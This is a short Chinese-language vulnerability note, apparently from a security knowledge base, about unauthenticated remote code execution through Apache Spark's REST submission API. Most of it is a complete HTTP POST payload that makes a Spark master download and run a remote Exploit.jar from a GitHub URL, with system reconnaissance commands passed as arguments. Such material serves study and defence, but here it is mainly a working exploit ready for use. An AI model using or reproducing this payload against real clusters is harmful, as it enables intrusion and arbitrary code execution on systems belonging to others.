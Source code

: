 该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

### **利用REST API**

构造payload

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

![image-20220516154805960](../../.gitbook/assets/image-20220516154805960.png)
